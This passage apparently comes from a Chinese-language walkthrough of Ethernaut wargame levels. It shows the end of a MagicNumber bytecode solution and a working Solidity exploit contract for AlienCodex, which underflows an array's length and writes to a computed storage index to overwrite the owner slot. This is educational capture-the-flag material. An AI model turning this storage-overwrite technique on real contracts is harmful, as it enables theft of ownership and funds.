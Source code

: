 ```solidity

Creation code - return runtime code
69602a60005260206000f3600052600a6016f3

// Store run time code to memory
PUSH10 0X602a60005260206000f3
PUSH1 0
MSTORE

// Return 10 bytes from memory starting at offset 22
PUSH1 0x0a
PUSH1 0x16
RETURN
*/
```

## 19-AlienCodex

主合约继承了 ownable 合约，在主合约中，第一个隐藏的状态变量应该是 ownable 中的 owner，目标是把第一个状态变量赋值成 msg.sender  
一个合约中 slot 总数 2^256 个，当使用的 slot 数超过 2^256 时，会复写之前的 slot  
合约中数组长度变化没有溢出处理，很容易被修改数组长度；尽量使用固定长度的数组，或者做好防溢出处理

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

interface IAlienCodex{
    function makeContact() external;
    function retract() external;
    function revise(uint i, bytes32 _content) external;
    function owner() external view returns(address);
}

contract Hack {
    function hack(IAlienCodex target) external {
        target.makeContact();
        target.retract();  // codex.length = 2^256 -1

        uint256 codexFirstSlot = uint256(keccak256(abi.encode(1)));
        uint index;
        unchecked{
            index = 0 - codexFirstSlot;
        }

        target.revise(index, bytes32(uint256(uint160(msg.sender))));

    }
}
```

## 20-Denial
